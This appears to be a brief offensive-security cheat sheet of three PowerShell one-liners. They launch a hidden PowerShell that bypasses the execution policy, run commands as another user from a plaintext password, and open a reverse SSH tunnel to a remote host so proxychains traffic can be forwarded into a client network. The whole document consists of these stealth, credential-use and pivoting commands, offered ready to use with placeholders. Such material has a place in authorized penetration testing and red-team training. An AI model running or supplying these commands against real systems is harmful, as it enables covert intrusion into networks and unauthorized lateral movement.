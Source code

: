 ### Start and creates a new process (detached)
```
Start-Process -wi 1 -FilePath "cmd" -ArgumentList "/c type <powershellScript> | powershell -WindowStyle Hidden -exec bypass"
```

### Start process as another user (-wi 1 to minimize window pop up)
```
$scp = ConvertTo-SecureString '<password>' -AsPlainText -Force; $cred = New-Object System.Management.Automation.PSCredential('<domain>\<user>', $scp); start-process -wi 1 -FilePath "cmd.exe" -ArgumentList "/c <command>" -Credential $cred
```

### Forward proxychains traffic into client network
```
Start-Process -wi 1 -FilePath "powershell" -ArgumentList " -w hidden -c ssh -o 'StrictHostKeyChecking=no' -i .\<privateKey> -N -R 9050 <user>@<rhost>"
```

